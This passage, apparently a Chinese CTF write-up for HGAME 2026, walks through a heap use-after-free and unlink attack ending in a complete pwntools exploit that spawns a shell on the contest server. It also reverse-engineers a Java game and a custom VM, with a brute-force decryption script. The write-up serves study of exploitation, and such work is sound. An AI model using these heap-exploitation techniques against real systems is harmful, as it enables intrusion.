





零音以林曦格（SigAurelia）的名义在 HGAME 2026 中完成了部分题目。由于时间仓促，零音并未做完所有题目，下面的 writeup 仅包括零音成功完成的题目。

## 签到 / SignIn

### README

:::tip[Flag]
`hgame{Now-I-kn0w-how-to-subm1t-my-fl4gs!}`
:::

由题目所给的内容，显然。

```txt
I am the flag!
hgame{Now-I-kn0w-how-to-subm1t-my-fl4gs!}
```

### TEST NC

:::tip[Flag]
`hgame{y0UR-CAN-ConNEct_T0_thE_remOTE_eNVIr0nm3nt_t0_GeT-f1Ag0}`
:::

使用 `nc` 连接到题目给出的目标服务器即可。使用 `ls` 列举服务器下的文件，使用 `cat` 获取 `flag` 的内容。



## 二进制漏洞审计 / Pwn

### Heap1sEz

:::tip[Flag]
`hgame{R3Ady_F0R_MOre_DIfF1cU1T-M4Iloc?52f20e}`
:::

程序的 `malloc.c` 代码完全替代了 glibc 的逻辑，自实现了一套 `malloc` 来管理通过 `sbrk` 得到的内存。其逻辑比现代 glibc 的 `malloc` 简单得多，且包含了一些早期的漏洞。

在 `main.c` 的 `delete()` 函数中，程序从笔记本删除一页（即 `free()` 掉这一页）后，并没有将对应的 `notes[index]` 置 `NULL`，从而给了我们 Use After Free 的可能。我们可以在 `delete` 掉一页后 `edit` 或 `show` 这个已经释放的 chunk。从而利用 UAF，我们可以获得 `fd` 指针的内容，进一步计算出程序的基址。

```c
void delete()
{
    ...
    free(notes[index]);
    return;
}
```

为达成这一点，考察 `malloc.c` 的 `free()` 代码片段，倘使我们仅申请 1 个 chunk 并释放，则因为它紧挨 Top Chunk 从而造成 Top Chunk Consolidation。

```c
if (nextchunk != main_arena.top)
    {
        // 放入 Unsorted Bin (双向链表)
    }
    else
    {
        size += nextsize;
        set_head(p, size | PREV_INUSE);
        main_arena.top = p;
    }
```

为了避免这一点并确保 chunk 进入 Unsorted Bin 双向链表，我们建立 Guard Chunk，即申请 2 个 chunk 并释放先申请的 chunk，使得后申请的 chunk 隔开 Top Chunk 和先申请的 chunk。此时即可打印出 `fd` 指针的值。下面的截图展示了与程序交互以获得该值的最后一步操作。



在 `malloc.c` 的 `unlink_chunk()` 函数中，现代 glibc 中用于防御 Unlink Attack 的核心检查被注释，即，我们可以使用 Unlink Attack 实现任意地址写。

```c
static void unlink_chunk(mchunkptr p)
{
    if (chunksize(p) != prev_size(next_chunk(p)))
        malloc_printerr("corrupted size vs. prev_size");

    mchunkptr fd = p->fd;
    mchunkptr bk = p->bk;

    // if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
    // malloc_printerr ("corrupted double-linked list");

    fd->bk = bk;
    bk->fd = fd;
}
```

在 `main.c` 中存在一个 `gift()` 函数：

```c
void gift()
{
    printf("give me a hook\n");
    if (scanf("%p", &hook) <= 0)
        _exit(1);
}
```

而 `malloc.c` 的 `free()` 函数开头，有

```c
if (__builtin_expect(hook != NULL, 0))
{
    (*hook)(mem);
    return;
}
```

在获得 libc 基址后，我们可以确定 `system()` 的地址。若可调用 `gift()` 函数，则可将 `hook` 设置为 `system()`，随后释放一个内容为 `/bin/sh` 的 chunk，即可调用 `(*hook)(mem);` 成功 getshell。从而我们确定了大致的攻击步骤：

1. 申请两个 chunk，记作 chunk 0 和 chunk 1。释放 chunk 0 后查询其内容，以获得 `fd` 指针的值——它指向 `main_arena` 结构体中特定的偏移位置（即 Unsorted Bin 的链表头地址），考虑到 `bck = bin_at(&main_arena, 1);` 从而 `&main_arena = leak_addr + 8;`，由此计算出 PIE。
2. 使用 PIE 计算出 `notes` 数组本身的地址。使用 UAF 修改 chunk 0 的 `fd` 和 `bk`，从而使得 `notes[0]` 存储的指针指向 `notes[0]` 向前 `0x18` 字节的位置。考察栈上内存空间的分布，我们 padding 24 个字节后写入 `puts`（先前已被调用）的 GOT 地址，随后 `show` 该 chunk 的内容以获得 `puts` 的 libc 地址，以获得 libc 基址。
3. 由 libc 基址计算出 `system()` 的地址，调用菜单的 `gift` 选项以设置 `hook` 为 `system()` 的地址。申请一个新的 chunk，更改其内容为 `/bin/sh` 并释放，以触发 hook。

下面给出一个可行的 Exploit。

```python
"""
Exploit script for competitions.HGAME.2026.problems.Pwn.Heap1sEz
by SigAurelia, affiliated with Project Hazelita
"""

from pwn import *

exe = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

# fmt: off
context.binary = exe
context.terminal = ["wt.exe", "nt", "--title", "pwndbg", "wsl.exe", "-d", "Ubuntu", "bash", "-c"]
# context.log_level = "debug"
context.log_level = "info"

# io = process([exe.path])
io = remote("cloud-middle.hgame.vidar.club", 31475)

context.gdb_binary = "/home/sigaurelia/.nix-profile/bin/pwndbg"
# gdb.attach(
#     io,
#     gdbscript="""
#     b *main
# """,
# )
# fmt: on


def add(chunk_idx: int, chunk_size: int):
    io.sendlineafter(b">", b"1")
    io.sendlineafter(b"Index: ", str(chunk_idx).encode())
    io.sendlineafter(b"Size: ", str(chunk_size).encode())
    log.info(f"ADD chunk! IDX: {chunk_idx}, SIZE: {chunk_size}")


def delete(chunk_idx: int):
    io.sendlineafter(b">", b"2")
    io.sendlineafter(b"Index: ", str(chunk_idx).encode())
    log.info(f"DELETE chunk! IDX: {chunk_idx}")


def edit(chunk_idx: int, content: bytes):
    io.sendlineafter(b">", b"3")
    io.sendlineafter(b"Index: ", str(chunk_idx).encode())
    io.sendlineafter(b"Content:", content)
    log.info(f"EDIT chunk! IDX: {chunk_idx}, CONTENT: {content}")


def show(chunk_idx: int):
    io.sendlineafter(b">", b"4")
    io.sendlineafter(b"Index: ", str(chunk_idx).encode())
    chunk_data = io.recvline()[:-1]
    log.info(f"SHOW chunk! IDX: {chunk_idx}, CONTENT: {chunk_data}")


def gift(hook: str):
    io.sendlineafter(b">", b"6")
    io.sendlineafter(b"give me a hook\n", hook.encode())


def addr_from_chunk(chunk_idx: int):
    io.sendlineafter(b">", b"4")
    io.sendlineafter(b"Index: ", str(chunk_idx).encode())
    chunk_data = io.recvline()[:-1]
    # log.info(f"SHOW chunk! IDX: {chunk_idx}, CONTENT: {chunk_data}")
    leak_addr = u64(chunk_data.ljust(8, b"\x00"))
    log.info(f"LEAKED ADDR! IDX: {chunk_idx}, ADDR: {hex(leak_addr)}")
    return leak_addr


def step_1():
    add(0, 32)
    add(1, 32)  # guard chunk
    delete(0)
    leak_addr = addr_from_chunk(0)
    # Note that leak_addr = &main_arena - 8 since `bck = bin_at(&main_arena, 1);`
    # Therefore &main_arena = leak_addr + 8
    main_arena_addr = leak_addr + 8
    exe.address = main_arena_addr - exe.sym["main_arena"]
    log.success(f"CALCULATED PIE BASE! ADDR: {hex(exe.address)}")


def step_2():
    notes_addr = exe.sym["notes"]
    log.success(f"notes ARRAY FOUND! ADDR: {hex(notes_addr)}")
    # Note that we'll have FD->bk = BK and BK->fd = FD on Chunk 0 (let which be P)
    # where FD = P->fd and BK = P->bk, therefore, if we let
    fake_fd = notes_addr - 0x18
    fake_bk = notes_addr - 0x10
    # then we'll have
    # FD->bk = BK: (&notes[0] - 0x18) + 0x18 = &notes[0] - 0x10 => *notes[0] = &notes[0] - 0x10,
    # BK->fd = FD: (&notes[0] - 0x10) + 0x10 = &notes[0] - 0x18 => *notes[0] = &notes[0] - 0x18.
    # The savvy reader will notice, that we can overwrite the value of notes[0]
    # after 24 bytes of padding.
    chunk_0_payload = p64(fake_fd) + p64(fake_bk)
    edit(0, chunk_0_payload)
    log.success("fake_fd and fake_bk UPDATED!")
    delete(1)  # trigger unlink
    log.success("TRIGGERED UNLINK!")
    # And now, notes[0] points to &notes[0] - 0x18.
    # As `puts` has been called before, as Lazy Binding, here we'll try to get `puts_got`.
    notes_payload = (
        b"SigAurelia" * 2 + b"hzlt" + p64(exe.got["puts"])
    )  # len(padding) = 0x18
    edit(0, notes_payload)
    puts_addr = addr_from_chunk(0)
    libc.address = puts_addr - libc.sym["puts"]
    log.success(f"CALCULATED LIBC BASE! ADDR: {hex(libc.address)}")


def step_3():
    system_addr = libc.sym["system"]
    log.info(f"CALCULATED system ADDR! ADDR {hex(system_addr)}")
    gift(str(hex(system_addr)))
    add(2, 32)
    edit(2, b"/bin/sh\x00")
    delete(2)


if __name__ == "__main__":
    step_1()
    step_2()
    step_3()
    io.interactive()
```

## 逆向工程 / Reverse

### PVZ

:::tip[Flag]
`hgame{BECAUSE_I_AM_CRAAAZY}`
:::

使用 Detect It Easy 工具查看，发现 `gpvz.exe` 文件是 Java 程序的封装壳，其 `.jar` 位于文件后侧。



使用 `dd` 提取出该 `.jar` 文件，并拖入 JADX GUI 分析。

```bash
dd if=gpvz.exe of=extracted.jar bs=1 skip=$((0x10a00)) count=$((0x032a389b))
```



注意到 `addScreen(GameScreen.class, new GameScreen(this));` 易得主逻辑位于 `GameScreen`，跟踪进入。注意到 `spawnZombie()` 方法中的逻辑：

```java
if (TOTAL_GAME_DURATION - this.gameTime < 30.0f) {
    zombieNewInstance.setHp(99999999);
}
```

即，当游戏时间少于 30 秒时，新生成的僵尸血量极高，从而常规攻击无法成功击败僵尸。不难发现，在每次 `placePlant` 和 `removePlant` 时，总会调用一个名为 `updateHashReversedCheck()` 的私有方法：

```java
/* JADX INFO: Access modifiers changed from: private */
public final void updateHashReversedCheck() {
    if (ArraysKt.contains(new long[]{6164215068710761199L, 5267579215675793589L, ...}, this.lawnGroup.II())) {
        shakeScreen(1.0f, 0.2f);
        showFlashText("WSDX");
        Assets.Companion.I1().stop();
        Assets.Companion.IIll().play();
        Array array = new Array();
        Iterator<Zombie> it = getZombies().iterator();
        while (it.hasNext()) {
            array.add(it.next());
        }
        Iterator<T> it2 = array.iterator();
        while (it2.hasNext()) {
            ((Zombie) it2.next()).receiveDamage(9999);
        }
        Timer.schedule(new lII1(this), 1.2f);
    }
}
```

即，它检查 `lawnGroup.II()` 的返回值是否匹配一组特定的 `long` 型哈希值，如果是，则循环为僵尸施加 9,999 的伤害，使得玩家胜利。考虑到分析 `lawnGroup.II()` 所在的 `defpackage.II1l` 类过于复杂，我们直接跳转到游戏胜利后的 `triggerVictory()` 函数，不难发现它将进入 `FlagScreen`。

```java
/* JADX INFO: Access modifiers changed from: private */
public final void triggerVictory() {
    if (!this.gameWon) {
        this.gameWon = true;
        Assets.Companion.I1().stop();
        FlagScreen flagScreen = new FlagScreen(this.game, this.lawnGroup.O());
        this.game.addScreen(FlagScreen.class, flagScreen);
        this.game.setScreen(flagScreen.getClass());
    }
}
```

分析后者代码，可以发现它大致进行了这些操作：

1. 将输入的种子（`O()` 的结果）与常量 `hello` 相加，取低 32 位作为 `int` 输入，通过一个 LCG 生成 16 字节的密钥；
2. 与派生密钥 XOR 并加上基于索引的偏移后，将 26 字节的数组分为两半，分别与 `xorKey1` 和 `xorKey2` XOR；
3. 使用预设的 `aesEncryptedKey` 进行循环 XOR 解密后，进行 Rotate Decrypt 和 Substitution Decrypt。

考虑到 `FlagScreen` 中解密所需的密钥空间仅为 16 位（即 0 到 65,535），我们直接通过暴力破解的方式得到某个格式为 `flag{...}` 的字符串，并将 `flag` 替换为 `hgame` 即可。下面给出一个暴力破解脚本。

```python
def solve():
    killCountEncryptedFlag = [0, -8, -6, 6, 31, -39, -104, 114, 86, -23, -35, 28, -122, 56, 29, -126, -29, 94, 23, -29, 46, -126, -4, 45, 20, -57]
    aesEncryptedKey = [74, -111, -61, 127, 46, -75, 104, -44, 28, -119, 58, -14, 93, -90, 113, -66]
    xorKey1 = 102
    xorKey2 = 119

    substitutionMap = {
        'Q': 'A', 'W': 'B', 'E': 'C', 'R': 'D', 'T': 'E', 'Y': 'F', 'U': 'G', 'I': 'H', 'O': 'I', 'P': 'J',
        'A': 'K', 'S': 'L', 'D': 'M', 'F': 'N', 'G': 'O', 'H': 'P', 'J': 'Q', 'K': 'R', 'L': 'S', 'Z': 'T',
        'X': 'U', 'C': 'V', 'V': 'W', 'B': 'X', 'N': 'Y', 'M': 'Z', '!': '_', '[': '{', ']': '}'
    }

    def rotate_char(c, rot):
        if 'A' <= c <= 'Z':
            return chr(ord('A') + (ord(c) - ord('A') - rot) % 26)
        if 'a' <= c <= 'z':
            return chr(ord('a') + (ord(c) - ord('a') - rot) % 26)
        return c

    for i6 in range(65536):
        # derive key
        bArrKey = bytearray(16)
        i7 = i6
        for k_idx in range(16):
            i7 = (i7 * 1103515245 + 12345) & 0x7FFFFFFF
            bArrKey[k_idx] = (i7 >> 16) % 256

        # step 1: decryptWithKillCount
        d1 = bytearray(26)
        for i in range(26):
            d1[i] = (killCountEncryptedFlag[i] & 0xFF) ^ bArrKey[i % 16] ^ ((i * 13 + 7) % 256)

        # xor step
        d2 = bytearray(26)
        for i in range(13):
            d2[i] = d1[i] ^ xorKey1
        for i in range(13, 26):
            d2[i] = d1[i] ^ xorKey2

        # aes step (xor)
        d3 = bytearray(26)
        for i in range(26):
            d3[i] = d2[i] ^ (aesEncryptedKey[i % 16] & 0xFF)

        try:
            s3 = d3.decode('ascii')
        except:
            continue

        for rot in range(26):
            rotated = "".join(rotate_char(c, rot) for c in s3)
            final = "".join(substitutionMap.get(c, c) for c in rotated)

            if final.startswith('flag{') and final.endswith('}'):
                return final.replace('flag', 'hgame')

print(solve())
```

### 看不懂的华容道

:::tip[Flag]
`hgame{c4a8ae149d34f8552875b87bb317ffa}`
:::

使用 IDA Pro 跟踪 `start()`，逐步跟踪后找到 `main` 函数 `sub_1400116F4()`。经过简要分析，程序中存在一个虚拟机。下面的代码进行了函数重命名以便于分析。

```c
// Hidden C++ exception states: #wind=1
int __fastcall main(int argc, const char **game_bin_file, const char **envp)
{
    /* 初始化变量 */

    v3 = &v11;
    /* 初始化栈内存 */
    crt_junk_0((__int64)&unk_14003C06E, (__int64)game_bin_file, (__int64)envp);
    if ( argc == 2 )
    {
        j_init_vm_context((__int64)vm_context, v5, v6);
        j_load_arg_file((__int64)vm_context, (__int64)game_bin_file[1]);
        j_vm_main_logic(vm_context);
        v7 = 0;
    }
    else
    {
        v7 = 1;
    }
    v8 = v7;
    check_cookie(v10, &unk_14002E020);
    return v8;
}
```

其中 `init_vm_context()` 函数将传入的 `a1` 的 65,704 字节写零后，在偏移 136 处写入 `FF00`，在偏移 65,696 处写入 `1`。

```c
__int64 __fastcall init_vm_context(__int64 a1, __int64 a2, __int64 a3)
{
    crt_junk_0((__int64)&unk_14003C06E, a2, a3);
    j_memset((void *)a1, 0, 65704u);
    *(_QWORD *)(a1 + 136) = '\xFF\0';             // `FF00`
    *(_BYTE *)(a1 + 65696) = 1;                   // `1`
    return a1;
}
```

`load_arg_file` 函数从传入的文件（这里，即 `game.bin`）中读取最多 32,768 字节的内容（事实上远大于 `game.bin`），并写入 `a1` 的 `160` 偏移处。

```c
__int64 __fastcall load_arg_file(__int64 a1, __int64 a2, __int64 a3)
{
    /* 初始化变量 */

    v3 = &v8;
    /* 初始化栈内存 */
    crt_junk_0((__int64)&unk_14003C06E, a2, a3);
    j_memset_to_0(buf_, 0x110u);
    j_load_context((__int64)buf_, a2, 32, 0x40u, 1);
    if ( (unsigned __int8)std::ios_base::operator!((char *)buf_ + *(int *)(*(_QWORD *)buf_ + 4LL)) )
    {
        v5 = cout(std::cerr, (__int64)"Load Error");
        std::ostream::operator<<(v5, sub_14001106E);
        exit(1);
    }
    std::istream::read(buf_, a1 + 160, 32768);    // 读取文件
    sub_1400111AE((__int64)buf_);
    return check_cookie((__int64)v7, (__int64)&unk_14002D510);
}
```

基于此，我们推测 `a1` 即为虚拟机上下文 `VM_context`。阅读 `vm_main_logic` 代码后，我们可以推测出该上下文的具体结构。

```c
struct VM_context {
    unsigned __int64 regs[16];    // 0x00 - 0x7F (0-127)
    unsigned __int64 pc;          // 0x80 (128)
    unsigned __int64 unknown;     // 0x88 (136) 
    unsigned __int64 flags;       // 0x90 (144)
    unsigned __int64 padding[1];  // 0x98 (152)
    unsigned char memory[65536];  // 0xA0 (160)
    unsigned char is_running;     // 0x100A0 (65696)
};
```

在 IDA Pro 的 Local Types 中加入该结构体，确定代码逻辑后，对每个 `case` 分析，即可得到 Opcode 对照表。

| Opcode | 助记符和声明 | 逻辑描述 |
| --- | --- | --- |
| `0x15` | `INPUT n` | 获取用户的输入，并存入 `regs[n]` |
| `0x16` | `RENDER` | 取 `mem[0:9]` 为棋子坐标，渲染得到棋盘，存入 `mem[80:100]` |
| `0x17` | `PRINT` | 打印 `regs[9]` 和 `regs[8]` 的值 |
| `0x18` | `CALC_MD5_R8_R9` | 读取内存中的数据，进行加盐的哈希运算 |
| `0xA0` | `MOV dst, src` | `regs[dst] = regs[src]` |
| `0xA1` | `LDI dst, src(low, high)` | 加载 16 位立即数 `regs[dst] = regs[src]` |
| `0xB0` | `LDM dst, src` | 从内存加载字节 `regs[dst] = mem[LOBYTE(regs[src])]` |
| `0xB1` | `STM dst, src` | 存储字节到内存 `mem[LOBYTE(regs[dst])] = regs[src]` |
| `0xC0` | `NAND dst, src1, src2` | `regs[dst] = ~(regs[src1] & regs[src2])` |
| `0xC1` | `SHL dst, src1, src2` | `regs[dst] = src1 << src2` |
| `0xC2` | `SHR dst, src1, src2` | `regs[dst] = src1 >> src2` |
| `0xD0` | `ADD dst, src1, src2` | `regs[dst] = src1 + src2` |
| `0xD1` | `XOR dst, src1, src2` | `regs[dst] = src1 ^ src2` |
| `0xD2` | `SUB dst, src1, src2` | `regs[dst] = src1 - src2` |
| `0xE0` | `JMP offset` | `PC += offset`（`PC` 自增 `2` 后） |
| `0xE1` | `JE offset` | （`flags == 1`）相等时跳转 `PC += offset`（`PC` 自增 `2` 后） |
| `0xE2` | `JNE offset` | （`flags == 0`）不相等时跳转 `PC += offset`（`PC` 自增 `2` 后） |
| `0xE3` | `CMP src_1, src_2` | `flags = src_1 == src_2`，这里的 `src_1` 和 `src_2` 各占半字节 |
| `0xFF` | `HALT` | 停止虚拟机 |

从而，我们将目光转向 `game.bin` 文件。该文件共 820 字节。根据对照表，不难写出 `disassembler.py` 进行反汇编。下面给出反编译后的结果。

Gemini 3.0 Pro 为该反汇编结果加入了注释，以方便理解。

```asm
; =============================================================
; 华容道 (Klotski) 模拟器 - 详细注释版
; 寄存器分配概览:
; R0: 输入缓冲 / 临时计算
; R10: 当前选中的棋子编号 (0-9)
; R11: 棋子当前位置 (Current Pos)
; R12: 棋子目标位置 (Target Pos)
; R14: 全局棋盘占用位图 (Global Collision Map)
; R13: 棋子形状掩码 (Shape Mask)
; =============================================================

; -------------------------------------------------------------
; 1. 初始化阶段 (0x0000 - 0x0092)
; 将 10 个棋子的初始位置写入内存 Mem[0] ~ Mem[9]
; -------------------------------------------------------------
0x0000:  LDI  R1, 0x0      ; R1 = 0 (位置索引 0)
0x0004:  LDI  R2, 0x1      ; R2 = 1 (内存地址 1)
0x0008:  STM  [R2], R1     ; Mem[1] = 0 (可能是曹操)

0x000B:  LDI  R1, 0x1      ; R1 = 1
0x000F:  LDI  R2, 0x0      ; R2 = 0
0x0013:  STM  [R2], R1     ; Mem[0] = 1 (位置 1)

0x0016:  LDI  R1, 0x3      ; R1 = 3
0x001A:  LDI  R2, 0x2      ; R2 = 2
0x001E:  STM  [R2], R1     ; Mem[2] = 3

; ... (省略部分相似的初始化指令，均在设置 Mem[0]~[9] 的初始坐标) ...
; 这些坐标对应 4x5 棋盘上的左上角点：
; Row 0: 0, 1, 2, 3
; Row 1: 4, 5, 6, 7
; Row 2: 8, 9, 10, 11
; Row 3: 12, 13, 14, 15
; Row 4: 16, 17, 18, 19

0x0058:  LDI  R1, 0x10     ; R1 = 16 (最后一行)
0x005C:  LDI  R2, 0x7      ; R2 = 7
0x0060:  STM  [R2], R1     ; Mem[7] = 16

0x0063:  LDI  R1, 0x13     ; R1 = 19 (右下角)
0x0067:  LDI  R2, 0x9      ; R2 = 9
0x006B:  STM  [R2], R1     ; Mem[9] = 19

; -------------------------------------------------------------
; 初始化全局占用位图 R14
; 这里的逻辑是硬编码计算初始状态的位掩码，而不是扫描内存
; -------------------------------------------------------------
0x006E:  LDI  R14, 0x9F    ; R14 = 0x9F (10011111)
0x0072:  LDI  R1, 0xC      ; R1 = 12
0x0076:  SHL  R14, R14, R1 ; R14 = 0x9F000 (构建高位)
0x007A:  LDI  R2, 0xFF     ; R2 = 0xFF
0x007E:  LDI  R1, 0x4      ; R1 = 4
0x0082:  SHL  R2, R2, R1   ; R2 = 0xFF0 (构建中位)
0x0086:  ADD  R14, R14, R2 ; R14 = 0x9FF00
0x008A:  LDI  R2, 0xF      ; R2 = 0xF
0x008E:  ADD  R14, R14, R2 ; R14 = 0x9FFF0... (最终的初始位图)
0x0092:  LDI  R10, 0x0     ; 清空 R10
0x0096:  JMP  offset 513 -> 0x029A ; 跳转到首次渲染

; -------------------------------------------------------------
; 2. 主循环 (0x0099 - 0x00FA)
; -------------------------------------------------------------
0x0099:  RENDER            ; 渲染指令：根据 Mem[0:9] 生成棋盘视图存入 Mem[80:100]
0x009A:  INPUT R0          ; 等待用户输入，结果存入 R0
0x009C:  LDI  R2, 0x0
0x00A0:  CMP  R2, R0       ; 检查输入是否为空
0x00A2:  JE   offset -12 -> 0x0099 ; 如果空，重新循环

; 解析输入：假设输入格式高8位是字符，低8位是操作数，或者是某种组合
; 从代码看，它把 R0 分解为 "棋子ID" 和 "方向键"
0x00A5:  LDI  R2, 0x8
0x00A9:  SHR  R5, R0, R2   ; R5 = R0 >> 8 (取高字节，假设是 ASCII 数字)
0x00AD:  LDI  R2, 0x30     ; ASCII '0'
0x00B1:  SUB  R6, R5, R2   ; R6 = R5 - '0' (将字符转换为数字 0-9)
0x00B5:  MOV  R10, R6      ; **R10 = 选中的棋子编号**

0x00B8:  LDI  R2, 0x8
0x00BC:  SHL  R9, R5, R2   ; R9 = R5 << 8 (把数字恢复到高字节，用于后续比较键值)
0x00C0:  LDM  R11, [R10]   ; **R11 = 读取该棋子的当前位置**
0x00C3:  MOV  R12, R11     ; **R12 = 初始化目标位置 = 当前位置**

; -------------------------------------------------------------
; 按键检测 (W/S/A/D)
; R0 (输入) 与 (R9 + 键值) 比较，因为输入包含棋子前缀
; -------------------------------------------------------------
0x00C6:  LDI  R2, 0x77     ; 'w' 的 ASCII 码
0x00CA:  ADD  R8, R9, R2   ; 构造 "棋子ID + w"
0x00CE:  CMP  R8, R0
0x00D0:  JE   offset 42 -> 0x00FD  ; 跳转到 向上移动处理

0x00D3:  LDI  R2, 0x73     ; 's'
0x00D7:  ADD  R8, R9, R2
0x00DB:  CMP  R8, R0
0x00DD:  JE   offset 76 -> 0x012C  ; 跳转到 向下移动处理

0x00E0:  LDI  R2, 0x61     ; 'a'
0x00E4:  ADD  R8, R9, R2
0x00E8:  CMP  R8, R0
0x00EA:  JE   offset 194 -> 0x01AF ; 跳转到 向左移动处理

0x00ED:  LDI  R2, 0x64     ; 'd'
0x00F1:  ADD  R8, R9, R2
0x00F5:  CMP  R8, R0
0x00F7:  JE   offset 237 -> 0x01E7 ; 跳转到 向右移动处理

0x00FA:  JMP  offset -100 -> 0x0099 ; 无效按键，重新循环

; -------------------------------------------------------------
; 3. 移动逻辑与边界检查
; -------------------------------------------------------------

; === 向上移动 (UP) ===
0x00FD:  LDI  R2, 0x0
0x0101:  CMP  R11, R2      ; 检查是否在 Row 0 (Pos 0)
0x0103:  JE   offset -109 -> 0x0099 ; 是则不能上移
; ... (重复检查位置 1, 2, 3，即第一行所有位置) ...
0x011E:  JE   offset -136 -> 0x0099
0x0121:  LDI  R2, 0x4
0x0125:  SUB  R12, R11, R2 ; 目标位置 = 当前位置 - 4 (上一行)
0x0129:  JMP  offset 309 -> 0x0261  ; 去做碰撞检测

; === 向下移动 (DOWN) ===
0x012C:  LDI  R2, 0x10
0x0130:  CMP  R11, R2      ; 检查是否在 Row 4 (Pos 16)
0x0132:  JE   offset -156 -> 0x0099
; ... (重复检查位置 17, 18, 19，即最后一行) ...
0x014D:  JE   offset -183 -> 0x0099
0x0150:  LDI  R2, 0x4
0x0154:  ADD  R12, R11, R2 ; 目标位置 = 当前位置 + 4
; **特殊检查**：如果是大棋子（占用两行），移动后底部不能越界
0x0158:  LDI  R2, 0x10
0x015C:  CMP  R12, R2      ; 如果目标位置到了最后一行 (16)
